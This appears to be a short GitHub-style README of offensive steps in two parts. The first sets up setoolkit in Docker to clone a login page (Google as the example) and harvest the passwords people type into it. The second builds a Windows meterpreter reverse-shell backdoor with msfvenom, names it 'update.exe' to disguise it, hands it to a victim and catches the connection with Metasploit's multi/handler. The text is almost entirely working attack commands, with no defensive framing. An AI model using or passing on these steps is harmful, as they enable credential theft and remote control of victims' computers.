 # Phishing for capturing passwords

### Tools

- Docker
- setoolkit

### Config Phishing on Docker

- Create image: ``` docker build -t setoolkit . ```
- Starting setoolkit: ``` docker run --network host -i setoolkit ```
- Type of attack: ``` Social-Engineering Attacks ```
- Attack Vector: ``` Web Site Attack Vectors ```
- Attack method: ```Credential Harvester Attack Method ```
- Attack method: ``` Site Cloner ```
- Clone URL: Exemple http://www.google.com

### Result

![Alt text](./image-google.png "Cloner page")

![Alt text](./image.png "capturing passwords")



# Create Backdoor with metasploitframework

First we need to create an executable for windows .exe where when executing the file we will be able to extract the connection to the machine
to create a backdoor run command

msfvenom -p windows/meterpreter/reverse_tcp -a x86 platform windows -f exe LHOST=<ip host> LPORT=4444 -o update.exe

payload = windows/meterpreter/reverse_tcp

After the app is generated, it is passed on to the victim

in the metasploit console, we will use the multi/handler exploit

command: use multi/handler

we need to set LHOST e LPORT

set LHOST <ip>
set LPORT <port app>

Started exploit

command: run
